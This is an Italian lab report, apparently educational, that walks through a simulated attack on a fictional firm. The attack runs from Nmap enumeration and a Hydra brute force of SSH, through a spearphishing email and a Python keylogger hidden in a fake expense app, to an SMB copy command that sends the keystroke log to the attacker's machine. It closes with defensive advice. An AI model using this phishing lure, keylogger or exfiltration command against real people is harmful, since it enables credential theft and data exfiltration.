

<br>


<br>

# **La Morsa del Cyber Crimine**: Esplorazione di un Attacco Multi-Fase, da Spearphishing a Furto di Dati

<br>

## **Introduzione**

---

### Contesto e Importanza della Cybersecurity

<div style="text-align: justify;">

Le minacce cyber sono in continua evoluzione e possono avere conseguenze devastanti sulla privacy, sull'integrità dei dati e sulla reputazione delle aziende. Tra le varie tecniche utilizzate dagli attaccanti, spearphishing, furto di credenziali e divulgazione di informazioni sono tra i più pericolosi e diffusi.

### Obiettivo del Report

L'obiettivo di questo report è analizzare dettagliatamente un attacco composto da diverse fasi: enumerazione, spearphishing, iniezione di un keylogger (come allegato mail), furto di credenziali e estrazione dei dati tramite SMB.

### Strumenti utilizzati

 Gli strumenti utilizzati per eseguire l'attacco comprendono Kali Linux e una macchina virtuale Windows 10 su VirtualBox.

### Descrizione dell'attacco

L'attacco analizzato in questo report inizia con la fase di enumerazione, dove l'attaccante raccoglie informazioni su un'azienda e i suoi dipendenti. Successivamente, viene lanciato un attacco di spearphishing mirato, seguito dall'iniezione di un keylogger nel sistema della vittima. Il keylogger permette all'attaccante di rubare le credenziali di accesso (e qualsiasi cosa il bersaglio digiti), che vengono poi utilizzate per accedere a informazioni sensibili ed esfiltrarle, con potenziali impatti devastanti per l'azienda colpita.

<br>

## **Fase 0: Enumeration**

---

L'enumerazione è una fase preliminare degli attacchi informatici.

### Tecniche di Enumerazione

Gli attaccanti utilizzano diverse tecniche per raccogliere informazioni, tra cui anche l'utilizzo di strumenti automatizzati:

+ Social Media: monitoraggio dei profili social dei dipendenti per raccogliere informazioni personali e professionali che possono essere utilizzate per creare attacchi mirati.

+ LinkedIn: identificazione dei dipendenti chiave dell'azienda e delle loro relative informazioni sul ruolo e sui loro interessi professionali.

+ Whois Lookup: ottenimento delle informazioni sui registranti di domini aziendali, che possono includere nomi, indirizzi e contatti.

+ Nmap: strumento di scansione di rete ampiamente utilizzato per raccogliere informazioni su dispositivi e servizi in una rete. Può essere utilizzato per identificare host attivi, porte aperte e servizi in esecuzione su tali porte.

### Scoperte nella fase di enumerazione

Supponiamo che un attaccante voglia colpire un'azienda del settore finanziario di nome "Finanza Viva". Durante la fase di enumerazione, l'attaccante raccoglie molte informazioni pubbliche sulla azienza e sui dipendenti.
<!-- Durante la fase di enumerazione, l'attaccante può utilizzare LinkedIn per identificare un dipendente chiave, ad esempio un analista finanziario e, monitorando i suoi profili social, l'attaccante scopre che questo dipendente è particolarmente interessato agli investimenti e alle criptovalute. -->
Dopo aver identificato l'azienda, supponiamo che l'attaccante trovi l'indirizzo IP 10.0.2.4 associato. A questo punto l'attaccante procede con la scansione della rete utilizzando Nmap:


L'output rivela che l'azienda "Finanza Viva" ha configurato una macchina windows in cui il servizio SSH attivo sulla porta 22 e il servizio SMB attivo.

### Importanza per l'Attacco

La fase di enumerazione è cruciale perché fornisce all'attaccante le informazioni necessarie per personalizzare l'attacco di spearphishing (eseguito in seguito). Conoscere i dettagli personali e professionali del bersaglio aumenta la probabilità che la vittima caschi nell'inganno, rendendo l'attacco più efficace. Inoltre, l'enumerazione può rivelare vulnerabilità specifiche dell'azienda o dei suoi sistemi che possono essere sfruttate nelle fasi successive dell'attacco.

<br>

## **Fase 1: Valid Account**

---

Dopo aver identificato i servizi SSH e SMB aperti sulla rete dell'azienda "Finanza Viva", l'attaccante procede con l'utilizzo di Hydra per effettuare un attacco di forza bruta contro il servizio SSH all'indirizzo IP 10.0.2.4 e ottenere accesso ai sistemi. L'attaccante usa un dizionario costruitosi di nomi utenti User e di password Password per trovare le credenziali del servizio SSH.


L'attaccante scopre l'uso di credenziali predefinite da parte dell'amministratore, e procede con l'autenticazione a SSH.


L'attaccante ottiene l'accesso alla shell nel dispositivo dell'azienda con l'identità dell'amministratore e inizia a navigare tra i file:


L'attaccante scopre la presenza di un altro utente: Alessandro. Tra i documenti del bersaglio l'attaccante trova le informazioni di contatto di Alessandro come la mail. L'attaccante ritorna alla fase di enumerazione e attraverso LinkedIn scopre che Alessandro è un grande appassionato della finanza e all'interno della azienza è il responsabile della gestione dei conti bancari.

### Importanza per l'attacco

La scoperta delle credenziali dell'amministratore e l'utilizzo di Hydra per condurre un attacco di forza bruta sono cruciali per l'attaccante. Ottenere l'accesso come amministratore consente all'attaccante di eseguire operazioni dannose all'interno della rete, come il furto di dati sensibili, la modifica delle configurazioni di sistema o l'esfiltrazione dei dati.

Inoltre, l'utilizzo delle credenziali predefinite "Amministratore" e "Password" sottolinea l'importanza di implementare pratiche di sicurezza robuste, come l'uso di password complesse e uniche e la gestione adeguata degli account degli utenti, al fine di proteggere la rete da attacchi di forza bruta e intrusioni non autorizzate.

<br> 

## **Fase 2: Spearphishing e Iniezione di un Keylogger**

---

Lo spearphishing è una forma di phishing mirata in cui l'attaccante invia email fraudolente a individui specifici all'interno di un'organizzazione, utilizzando informazioni raccolte durante la fase di enumerazione per rendere l'email più credibile.
L'attaccante utilizza le informazioni raccolte su Alessandro, un dipendente di "Finanza Viva" noto per il suo interesse nella finanza e negli investimenti, per creare un'email altamente personalizzata. L'email finge di provenire da una rinomata azienda del settore finanziario che propone di testare in esclusiva una nuova applicazione di gestione della spesa. L'attaccante decide di inviare il seguente messaggio al bersaglio:

<br>

<blockquote>
Da: Staff@gestoredispesa.com

A: <Alessandro@finanzaviva.com>

Oggetto: Partecipazione Esclusiva al Test del Nuovo Software di Gestione delle Spese

Ciao Alessandro,

Spero che tu stia bene! Sono entusiasta di annunciarti che sei stato scelto per partecipare in esclusiva al test del nostro nuovo software per la Gestione Personale delle Spese.

Abbiamo notato il tuo interesse e la tua competenza nel campo e crediamo che il tuo feedback possa essere estremamente prezioso per noi mentre continuiamo a perfezionare e migliorare il nostro prodotto.

Il nostro team ha fatto un duro lavoro per sviluppare uno strumento intuitivo e potente che semplifichi la gestione delle spese personali, offrendo funzionalità avanzate e una user experience impeccabile.

Vorremmo invitarti a provare il software in anteprima e condividere con noi le tue opinioni, suggerimenti e eventuali problemi che potresti riscontrare durante l'utilizzo. Il tuo contributo sarà fondamentale per aiutarci a rendere il software il migliore possibile prima del lancio ufficiale.

Ti inviamo il link al software e le istruzioni per iniziare il test. Se hai domande o hai bisogno di assistenza, non esitare a contattarci. Non vediamo l'ora di lavorare con te e di rendere questo software un successo insieme!

Cordiali saluti,

Il Team di Gestore di Spesa

</blockquote>

In allegato all'email, c'è un programma di nome "Gestore di spesa.exe" che è un file malevolo.

### Tecniche Utilizzate

+ Personalizzazione: L'email è personalizzata per Alessandro, menzionando il suo interesse nella finanza e negli investimenti.
+ Finto Mittente: L'email appare provenire da una fonte affidabile nel settore finanziario.
+ Link Malevolo: L'email contiene un link a un file malevolo al cui interno c'è keylogger.

### Funzionamento del Software Malevolo

Alessandro scarica e avvia il programma "Gestore di spesa.exe". Il programma si presenta come una legittima applicazione di gestione delle spese, consentendo all'utente di inserire e monitorare entrate e uscite.


Tuttavia, al momento della chiusura dell'applicazione, il keylogger nascosto si attiva.
Esempio di codice contenuto nell'applicazione:

```python
# Definisci la directory e il nome del file di log
log_directory = r"C:\Windows\Temp"
log_file_name = "log.txt"

log_file_path = os.path.join(log_directory, log_file_name)
# Funzione per loggare le chiavi premute
def on_press(key):
    try:
        print(f"Premuto: {key.char}")
        with open(log_file_path, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        print(f"Premuto: {key}")
        with open(log_file_path, "a") as f:
            f.write(f"{key}\n")

# Funzione per loggare le chiavi rilasciate
def on_release(key):
    print(f"Rilasciato: {key}")

# Avvia il keylogger
with Listener(on_press=on_press) as listener:
    listener.join()
```

Questo codice rappresenta un esempio di un keylogger scritto in Python, che registra tutti i tasti premuti e li salva in un file log.txt nella cartella C:\Windows\Temp.

Dopo la chiusura dell'applicazione, si può notare come in gestione delle attività sia in esecuzione il Gestore di spesa in background:


### Raccolta dei Dati

Dopo aver chiuso il programma, il keylogger inizia a catturare tutte le informazioni digitate da Alessandro, inclusi:

+ Nomi utente e password per l'accesso ai sistemi aziendali.
+ Dati personali e finanziari inseriti nei siti web.
+ Comunicazioni via email e chat.

### Implicazioni e Impatti

L'installazione del programma malevolo può portare all'accesso non autorizzato ai sistemi aziendali di "Finanza Viva", dei conti bancari e di qualsiasi altro servizio fondamentale all'azienza. Può avere conseguenze devastanti: furto di credenziali, compromissione di dati sensibili e danni reputazionali.

<br>

## **Fase 3: Estrazione Dati tramite SMB**

---

Dopo che l'utente ha scaricato il programma malevolo e averlo eseguito, il keylogger inizia a raccogliere i dati sensibili. Ora l'attaccante può sfruttare il protocollo SMB per estrarre il file log.txt contenente le sequenze di tasti catturate.

### 1. Configurazione del Server SMB sull'Attaccante

L'attaccante configura il server SMB utilizzando lo strumento impacket-smbserver per creare una condivisione di rete, tra il dispositivo del bersaglio e il proprio, che può essere acceduta dall'attaccante per copiare i file del bersaglio sul dispositivo dell'attaccante. Il comando seguente avvia il server SMB sul dispositivo dell'attaccante:


Questo comando crea una condivisione SMB denominata hax nella directory corrente dell'attaccante nella quale l'attaccante può spostare i file della vittima.

### 2. Navigazione sulla Macchina della Vittima

Sulla macchina della vittima (il dispositivo di Alessandro), l'attaccante verifica la posizione del file log.txt generato dal keylogger. Il file è collocato nella directory C:\Windows\temp per costruzione del keylogger.



### 3. Copia del File log.txt tramite SMB

L'attaccante utilizza il comando copy di Windows per copiare il file log.txt dalla macchina della vittima alla condivisione SMB sul dispositivo dell'attaccante. Ecco il comando eseguito sulla macchina della vittima attraverso SSH:

```cmd
copy C:\Windows\temp\log.txt \\10.0.2.15\hax\log.txt
```


Dove 10.0.2.15 è l'indirizzo IP del dispositivo dell'attaccante.

L'attaccante può verificare che lo spostamento del file è avvenuto nel terminale che ha usato creare la condivisione SMB:


Esempio del file log.txt ottenuto:


<br>

## **Conclusioni**

---

Le aziende devono adottare misure di sicurezza efficaci e formare i propri dipendenti per prevenire e mitigare tali attacchi. Per proteggersi da questo tipo di attacco, le aziende possono adottare diverse misure di sicurezza:

+ Gestione delle Password: Cambiare le password di default e utilizzare password non comuni e possibilmente non esistenti nei dizionari.
+ Formazione dei Dipendenti: Educare i dipendenti sui rischi del phishing e su come riconoscere email sospette.
+ Monitoraggio del Traffico di Rete: Monitorare e analizzare il traffico di rete per rilevare attività sospette.
+ Configurazione di Firewall e Regole di Accesso: Limitare l'accesso ai servizi SMB solo a dispositivi e utenti autorizzati.

</div>

<br>

## **Riferimenti**

---

1. Nmap:
    + Nmap Official Website: <https://nmap.org/>

2. Hydra:
    + van Hauser, "Hydra - A very fast network logon cracker," THC, 2023. Disponibile: <https://github.com/vanhauser-thc/thc-hydra>

3. Trasferimento di file da e verso il server SMB dell'utente malintenzionato:
    + <https://juggernaut-sec.com/windows-file-transfers-for-hackers/#Transferring_Files_to_and_from_Attackers_SMB_Server>
